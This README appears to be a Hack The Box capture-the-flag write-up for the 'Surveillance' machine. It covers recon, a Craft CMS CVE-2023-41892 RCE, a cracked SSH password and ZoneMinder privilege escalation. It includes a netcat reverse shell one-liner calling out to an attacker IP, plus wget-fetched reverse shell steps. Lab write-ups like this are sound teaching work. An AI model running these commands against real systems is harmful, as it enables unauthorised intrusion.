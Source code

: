 # Surveillance


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6acae25e-f039-4ff6-b160-876222d82942" align="center" alt="keeper-htb" />
</p>



## Introduction :

The Surveillance machine on Hack The Box presented a challenging learning opportunity. The journey involved Nmap scanning, web enumeration, and directory busting to discover an admin login on Craft CMS. Leveraging a Remote Code Execution (RCE) exploit, initial access was gained, leading to the discovery of a user named Matthew. After cracking Matthew's password, SSH access was achieved.

The privilege escalation involved MySQL credentials, "zoneminder" configurations, and a version-specific exploit using Metasploit. Despite challenges, a method to escalate privileges to root was found by manipulating the "user" parameter in zmupdate.pl. The write-up underscores the importance of thorough reconnaissance, exploit analysis, and creative problem-solving in successfully navigating the complexities of the Surveillance machine on HTB.


## Ennumiration :

We start with simple port & services scan and got two standard ports. When we access the web page, it has a specific CMS.

```bash
nmap -p- -T4 -A -sV 10.10.11.245
```

Because HTTP is an open protocol, we can verify whether a webpage can be seen in a web browser.

```bash
sudo echo "10.10.11.245 surveillance" >> /etc/hosts
```
The website appears to be experiencing difficulty locating the site. In such instances, you can resolve the issue by adding the IP and DNS name to the /etc/hosts file.

## Enumerating Directories

Now that we have access to the webpage, let's engage in directory enumeration. In this scenario, we will employ GoBuster.
```bash
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.4-medium.txt -x .php,.html,.txt,.zip
```

I’ve obtained access to an admin login, and it’s running on Craft CMS.

I examined the source code of surveillance.htb/index.php and determined the version it is running.

Upon researching the version online, I discovered a proof of concept for Remote Code Execution (RCE).

## Exploit :

This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).


CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

POC GIST-  https://gist.githubusercontent.com/to016/b796ca3275fa11b5ab9594b1522f7226/raw/4742df53be0584c68d6f7550224948fc6709fea9/CVE-2023-41892-POC.md

You need to edit this part of the script for it to work.

```bash 
response = requests.post(url,  headers=headers, data=data, proxies={"http" : http://127.0.0.1:8080"}} 
```

It should get you a shell.

```bash 
python3 POC.py http://surveillance.htb/
```

After successfully exploit and gaining initial access using the PoC, the subsequent step involves obtaining a secure and robust shell for executing bash commands.

I found the following one-liner:

```bash

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.11.246 4444 >/tmp/f

```

— THE IP AND PORT CAN BE CUSTOMIZED ACCORDING TO USER PREFERENCES.

To elaborate:

The rm command eliminates any pre-existing file at /tmp/f.
The mkfifo command generates a named pipe at /tmp/f.
The cat | /bin/bash pipeline forms an interactive Bash shell linked to the named pipe.
The nc command initiates a network connection, channeling the entire output, including the Bash shell output, back into the named pipe.

This should result in a fully operational shell.
```bash
nc -nvlp 4444
```

During my exploration, I stumbled upon a backup directory nestled within the storage repository.

Subsequently, I proceeded to relocate or duplicate the directory, transitioning it from the storage folder to the hosted web server.

Following this relocation, I initiated a wget command to extract and retrieve the contents of the file, thereby incorporating the backup data into the current environment.

I extracted the contents of the file and examined them to locate specific credentials. Within the extracted data, I identified a user named Matthew along with an encrypted password.

To discern the hashing algorithm employed for Matthew's password, I employed Hash-Identifier. The analysis suggests that the hash might have been generated using SHA-256.


### Password:
Subsequently, I appended the hashed password to a text file and employed hashcat to initiate the password cracking process.

The password cracking operation was successful, and the decrypted password has been obtained.


```bash

Username: Matthew
Password: starcraft122490

```

I attempted it on SSH, and it worked flawlessly



## Root Privilege Escalation : 

I ran LinPEAS from my Python server to investigate credentials.

I came across MySQL credentials that appear to correspond to the database stored in the storage/backups directory.

Subsequently, I uncovered a password associated with something referred to as "zoneminder."




Upon examining the configurations linked to "zoneminder," a deeper dive into research unveiled that Zoneminder is a software primarily designed for monitoring purposes. Given its local storage, the next step involves establishing a port forward using SSH.



Once logged in, the initial checkpoint is to verify if the content can be displayed locally, a process that should yield results akin to a specific display format.


Encountering a roadblock with the default credentials "admin:admin" failing to grant access to the login page, the focus shifts towards identifying the version number. It is discerned as version 1.36.32, serving as a crucial reference point in the pursuit of potential exploits.



An available Proof of Concept (PoC) exploit for Zoneminder is explored, yet attempts to establish a connection after sending the payload prove futile.



Metasploit presents an exploit pertaining to snapshots in Zoneminder. Curiously, while the Metasploit script successfully executes, the accompanying Proof of Concept (PoC) falls short, introducing an unusual complication.



To explore potential avenues for privilege escalation, the `sudo -l` command is invoked. Subsequently, a stable shell is spawned using Python to navigate the system.



After scouring online resources, a method for escalating privileges to root is uncovered. This involves manipulating the "user" parameter within `zmupdate.pl` to input a file directory instead of a user, integrating the previously discovered password. This modified configuration is employed to execute a reverse shell script, subsequently transferred via the Python server using `wget`.



Essential to the execution of the script is the incorporation of Busybox to access the `netcat` command. Placement of the required components is flexible, but adherence to good practice recommends housing them in the `tmp` folder.



Preparation of the attacker to listen on specified ports is undertaken diligently.



Finally, the meticulously configured script is executed, paving the way for further exploration and potential actions within the system.

